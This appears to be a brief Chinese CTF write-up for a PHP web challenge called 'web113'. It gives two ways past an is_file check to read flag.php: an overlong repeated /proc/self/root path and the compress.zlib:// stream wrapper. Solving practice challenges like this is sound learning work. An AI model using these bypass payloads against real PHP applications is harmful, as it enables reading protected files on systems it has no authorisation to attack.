

# web113


两个方法:
```
/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p
roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro
c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/
self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se
lf/root/proc/self/root/var/www/html/flag.php
原理:/proc/self/root代表根目录，进行目录溢出，超过is_file能处理的最大长度就不认为是个文件了


伪协议:  compress.zlib://flag.php
```